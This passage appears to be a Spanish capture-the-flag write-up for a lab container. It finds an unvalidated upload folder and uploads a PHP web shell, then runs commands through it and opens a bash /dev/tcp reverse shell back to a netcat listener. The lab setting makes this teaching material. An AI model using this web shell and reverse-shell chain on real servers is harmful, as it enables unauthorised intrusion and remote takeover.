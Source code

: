 Ahora nos diridimos a esta direccion web que es el otro puerto expuesto:
```bash
https://172.17.0.2/
```

Vemos que podemos cargar archivos en el sistema, Asi que intentamos ver si existe la carpeta **uploads** y vemos que si existe: **-k** ignora el certificado **ssl**
```bash
gobuster dir -u https://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -k

/uploads/             (Status: 200) [Size: 1138] # Resultado
```

```bash
https://172.17.0.2/uploads/
```

Asi que lo que subamos se tendra que cargar aqui y subiremos un archivo php malicioso que nos permita ganar acceso al target **( shell.php )**
```php
<?php
  system($_GET["cmd"]);
?>
```

Intentamos subir el archivo: **( shell.php )** y Revisando esta ruta vemos que se ha cargado correctamente al no existir ninguana validacion:
```bash
https://172.17.0.2/uploads/
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos un archivo maliciosos cargado en el servidor lo ejecutaremos para ganar acceso al servidor.

### Ejecucion del Ataque
```bash
# Comandos para explotación
https://172.17.0.2/uploads/shell.php?cmd=whoami 
```

### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
https://172.17.0.2/uploads/shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---
